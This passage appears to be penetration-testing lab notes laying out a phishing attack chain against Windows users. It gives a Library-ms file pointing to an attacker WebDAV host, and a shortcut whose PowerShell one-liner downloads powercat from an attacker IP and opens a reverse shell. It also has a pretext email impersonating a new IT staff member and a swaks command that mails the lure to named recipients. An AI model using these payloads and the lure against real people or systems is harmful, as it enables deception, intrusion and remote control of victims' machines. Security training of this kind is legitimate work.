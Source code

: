    2. create **config.Library-ms** file - change url

      ```Library-ms
      <?xml version="1.0" encoding="UTF-8"?>
      <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
      <name>@windows.storage.dll,-34582</name>
      <version>6</version>
      <isLibraryPinned>true</isLibraryPinned>
      <iconReference>imageres.dll,-1003</iconReference>
      <templateInfo>
      <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
      </templateInfo>
      <searchConnectorDescriptionList>
      <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
      <url>http://192.168.45.170</url>
      </simpleLocation>
      </searchConnectorDescription>
      </searchConnectorDescriptionList>
      </libraryDescription>
      ```

   3. create a .lnk shortcut file to trigger the reverse shell

      name it **automatic_configuration** 

      ```
      powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.195:8080/powercat.ps1'); powercat -c 192.168.45.195 -p 4444 -e powershell"
      
      powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.195:8080/powercat.ps1'); powercat -c 192.168.45.195 -p 4444 -e cmd"
      ```

   4. write pretext
   
      ```
      Hello! My name is Dwight, and I'm a new member of the IT Team. 
      
      This week I am completing some configurations we rolled out last week.
      To make this easier, I've attached a file that will automatically
      perform each step. Could you download the attachment, open the
      directory, and double-click "automatic_configuration"? Once you
      confirm the configuration in the window that appears, you're all done!
      
      If you have any questions, or run into any problems, please let me
      know!
      ```
      
   5. Phisihing
   
      ```
      sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.241.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
      ```
   